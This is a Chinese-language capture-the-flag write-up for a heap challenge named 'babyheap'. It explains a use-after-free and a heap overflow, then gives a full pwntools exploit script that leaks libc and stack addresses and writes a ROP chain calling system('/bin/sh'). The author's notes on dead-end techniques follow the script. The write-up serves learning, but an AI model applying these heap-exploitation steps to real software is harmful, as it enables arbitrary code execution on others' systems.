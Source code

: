 # babyheap

一个babyheap我做了5个多小时……而且这题确实挺baby，所有知识点都是我见过的。那为什么还是做了这么久？因为我习惯纸上谈兵了，所有知识点都是在脑子里过一遍，觉得理解了就跑了，根本没实验过。更离谱的是，这题是我学习pwn以来独立做的第二道heap题。没错，我学pwn一年多了，只独立做了两道heap题，剩下全是看wp看的。我也不知道我是咋看下去那些wp的……

这题的关键点如下：
- add函数可以malloc大小为unsorted bin size的chunk，但不能超过200大小，而且总共只能调用这个函数15次。每次调用add函数，程序会分配两个chunk，第一个chunk（metadata）固定大小为0x18，第二个chunk大小由用户决定，用来装用户指定的data。第一个chunk的结构为：`size | 1(used_bit) | 指向第二个chunk的指针`，每个field 8个字节。程序会将第一个chunk的地址存入全局数组chunks
- free函数处有UAF。free掉两个chunk后会清空metadata的used_bit和指针，但不会清空chunks。要求metadata的size，used_bit和指针均不为0
- modify可用来修改chunk2，大小固定为40。有free里一样的检查
- view打印chunk2的内容，长度为metadata里记录的size。同样有free里一样的检查

很明显，modify处有堆溢出；free处有UAF。直接上exp
```py
from pwn import *
context.arch="amd64"
libc=ELF("./libc.so.6")
p=process("./chall")
def add(size,content):
    p.sendlineafter(">> ","1")
    p.sendlineafter(": ",str(size))
    p.sendlineafter(": ",content)
def free(index):
    p.sendlineafter(">> ","2")
    p.sendlineafter(": ",str(index))
def modify(index,content):
    p.sendlineafter(">> ","3")
    p.sendlineafter(": ",str(index))
    p.sendlineafter(": ",content)
def view(index):
    p.sendlineafter(">> ","4")
    p.sendlineafter(": ",str(index))
def write(addr,content):
    assert len(content)<=40
    modify(1,p64(8)+p64(1)+p64(addr))
    modify(0,content)
def read(addr,size):
    modify(1,p64(size)+p64(1)+p64(addr))
    view(0)
#给后面的任意地址读写做准备
add(32,"aaaa") #申请的大小不和metadata的大小一致就行
add(32,"bbbb")
free(0)
free(1) #两个chunk的metadata均入tcache
add(8,"cccc") #现在chunk2为第一个chunk的metadata。modify这个chunk等于修改第一个chunk的metadata。修改metadata里的size和指针就能实现任意地址读写
for i in range(7): #Fill tcache
    add(199,"aaaa")
add(8,"bbbb") #The chunk used to overflow to next chunk's size
add(8,"victim") #The chunk get overflowed
add(199,"libc") #To unsorted bin
add(8,"bbbb") #Prevent top chunk consolidation
for i in range(7):
    free(i+3)
free(9+3) #这个chunk进了unsorted bin，包含libc地址
modify(7+3,b"b"*8+p64(0)*2+p64(0xe1)) #overwrite next chunk's size。直接把那个包含libc地址的chunk包住了
free(8+3) #overlap chunk, contains libc address
add(12*8+8,"")
view(11+3)
libc.address=u64(p.recv(6).ljust(8,b'\x00'))-2206986
read(libc.sym["__environ"],8)
ret=u64(p.recv(8))-288
write(ret,p64(next(libc.search(asm('ret'), executable=True)))+p64(next(libc.search(asm('pop rdi; ret'), executable=True)))+p64(libc.search(b'/bin/sh').__next__())+p64(libc.sym["system"]))
p.sendlineafter(">> ",'5')
p.interactive()
```
之前我一直以为overlap chunk很困难，要和off by null一样考虑很多条件。但是看了[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/overlapping_chunks.c)发现，只要覆盖chunk的size为任意一个合理的size就行了，甚至不需要完全把物理相邻的下一个chunk包住。这是modify之前的内存布局：

![memory_layout](./memory_layout.png)

`0x5879b462b9e0`是我们即将modify的chunk的metadata，`0x5879b462b9f0`是我们即将modify的chunk。可以看到我们即将把位于`0x5879b462ba08`的0x21修改成0xe1，对应着metadata chunk `0x5879b462ba10` 的size。来看看free后是什么情况

![free_bins](./free_bins.png)

发现`0x5879b462ba10`确实进了大小为0xe0的tcache。但是看看底下那个unsorted bin里的chunk `0x5879b462ba60`，很明显有部分和`0x5879b462ba10`重复了。现在理论上，如果我们申请一个0xe0大小的chunk，写data时就能一直覆盖到那个libc地址，进而用view泄漏libc地址

我接下来申请的chunk大小为104，和0xe0根本不沾边，为啥还能得到libc地址？这里只需要申请一个不在已有tcache里并小于unsorted bin的大小就行了，因为这样libc会从unsorted bin切出一块，直接包含libc。又因为程序没有清空chunk，所以直接就拿到了libc地址。这个chunk overlap根本就没必要……我本来想着用chunk overlap泄漏地址并覆盖metadata chunk，结果发现有更简单的方法，就是脚本开头的那几步

后面拿RCE也卡了我很久。我写前半部分脚本和后半部分的时间隔了大半天，忘了有view函数……于是努力寻找一个只需要libc地址的RCE方法。翻了大佬的[笔记](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc)，似乎一个也用不了。以下是我尝试各个方法的记录

1. 我用`got -p libc`查看了libc里的可写got表，确实找到了puts在libc里对应的got表。找法很简单，在puts上下个断点，跟进去，会发现它内部调用了一个名为`*ABS*+0xa86a0@plt`的函数（不同libc版本不一样）。记住`0xa86a0`这串数字，就能在got表里找到其对应的got项了。但不幸的是，4个one_gadget一个也不能用。也看了里面提到的串联两个got表调整的做法。这个方法主要利用了`__GI___printf_fp_l+5607`处的gadget(可以用`x/4i __GI___printf_fp_l+5607`查看这个gadget。在r14和`[rbp-0x108]`处为0的情况，这个gadget能将rsi和rdx清空，就满足one gadget的调用条件了。gadget的末尾会跳转到`*ABS*+0xa97d0@plt`，或者说memcpy。所以将memcpy的got改为one_gadget，再将别的什么函数的got改为`__GI___printf_fp_l+5607`即可)。但问题在于，如果我想用这个方法的话，我必须同时将两个函数的got改为相应的值，因为其他libc函数内部也会调用memcpy。或者我在程序内找个别的函数，我可以控制它何时调用。这样先改这个函数的got，再改memcpy的got即可。然而我并没有找到这样的函数，程序里用到的所有函数基本都在两个modify之间被调用过。可能是我找得不够详细吧，总之失败
2. 找不到link_map的地址。而且好像是2.38才能用这个方法，我在2.35的[源码](https://elixir.bootlin.com/glibc/glibc-2.35/A/ident/_dl_call_fini)里没找到`_dl_call_fini`这个函数，但是2.38[源码](https://elixir.bootlin.com/glibc/glibc-2.38/A/ident/_dl_call_fini)里有
3. 一次只能写40个字节，不够完成利用stdout的覆盖操作。而且下面接着就调用IO函数了，也不能分成多部分覆盖
4. 程序里用了printf，但没用conversion specifier
5. 忘了有view函数，遂无法得知`tls-storage`的地址
6. 同上，不知道tls_base。而且发现tls base和libc基地址的偏移不是固定的

寄……了吗？本来是寄了的，但是我想起来有view函数了。但是咋泄漏tls的地址？我压根就没想，因为我记得libc里有个environ，可以泄漏栈地址。直接返璞归真，写rop去了。另外我发现environ里泄漏的那个栈地址和栈基地址的偏移不是固定的，但是和main函数返回地址的偏移是固定的

我每次纸上谈兵时都有侥幸：我都理解每个知识点和步骤了，到时候自己写肯定也写得出来。嗯……确实也没错，真的写出来了，但是这跌跌撞撞的步骤和喜剧般的用时是怎么回事？